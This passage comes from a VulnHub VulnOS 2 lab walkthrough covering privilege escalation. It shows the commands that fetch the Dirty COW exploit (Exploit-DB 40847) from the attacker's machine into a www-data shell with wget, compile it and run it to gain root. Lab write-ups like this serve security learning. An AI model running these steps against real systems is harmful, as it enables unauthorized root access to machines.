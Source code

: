 
This is the exploit file https://www.exploit-db.com/download/40847
Let’s download this on our Kali machine 

    Firefox https://www.exploit-db.com/download/40847 &

![20](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/725ed67f-e95a-478b-b9dd-09b4564bddba)


Let’s move this to our project folder 

    ┌──(kali㉿kali)-[~/vulnhub/markup/vuln-os-2]
    └─$ cp ~/Downloads/40847.cpp .

Let’s move this over to the target machine and then we’ll compile this over there.

Again, make sure that our Python server is running and in the same folder, we have the 40847.cpp file.

I’ll rename it to something easy like dirty.cpp

    mv 40847.cpp dirty.cpp            

Let’s go over to our remote shell and download this cpp file

    www-data@VulnOSv2:/tmp$ wget http://192.168.0.190:80/dirty.cpp

![21](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/a920c0c1-3db5-43b8-9872-2682777ba0ab)



Now we need to compile the dirty.cpp file, according to the instructions we have to use 

    g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dirty.cpp -lutil


![22](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/7261ffcc-5155-4ddc-826c-ff3be107cb3a)


Let’s run the dcow file to hopefully get root privileges

    ./dcow -s

![23](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/85b86fb7-6d40-4ebb-bfa2-9c2c3fd3e2d6)


There we go, now we have root access.
